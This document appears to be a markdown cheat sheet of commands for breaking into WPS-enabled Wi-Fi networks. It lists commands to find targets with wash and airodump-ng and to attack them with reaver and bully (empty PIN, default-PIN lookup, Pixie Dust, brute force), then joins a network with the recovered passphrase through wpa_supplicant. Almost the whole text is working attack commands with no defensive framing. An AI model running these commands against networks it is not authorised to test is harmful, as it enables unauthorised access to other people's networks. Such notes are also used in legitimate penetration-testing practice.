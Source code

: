 ## Capture packets

List APs with WPS enabled
```
wash -i wlan0mon
wash -i -5 wlan0mon
```

```
sudo airodump-ng --band abg --manufacturer --wps wlan0mon

sudo airodump-ng --band abg --manufacturer --bssid AA:AA:AA:AA:AA -c 44 --wps wlan0mon
```

## Attack

Empty Password:
```
reaver -b <BSSID> -i wlan0mon -p ''
```


Default PINs (first 6 characters of BSSID):
```
source /usr/share/airgeddon/known_pins.db
echo ${PINDB["0013F7"]}

reaver -b <BSSID> -i wlan0mon -p '12345678'
```

Pixie Dust:
```
reaver -b <BSSID> -i wlan0mon -vv -K
```

Or
```
# Discover PIN and recover Passphrase
bully -b <BSSID> -i wlan0mon -v 4 -d
bully -b <BSSID> -i wlan0mon -B -p <PIN>
```

Brute Force:
```
reaver -b <BSSID> -i wlan0mon -vv
```

## Connect to Network

Check properties:
```
sudo airmon-ng stop wlan0mon

nano wpa.cong
network={
    ssid="wifi-mobile"
    psk="starwars1"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}

sudo wpa_supplicant -i wlan0 -c wpa.conf

sudo dhclient wlan0 -v
```
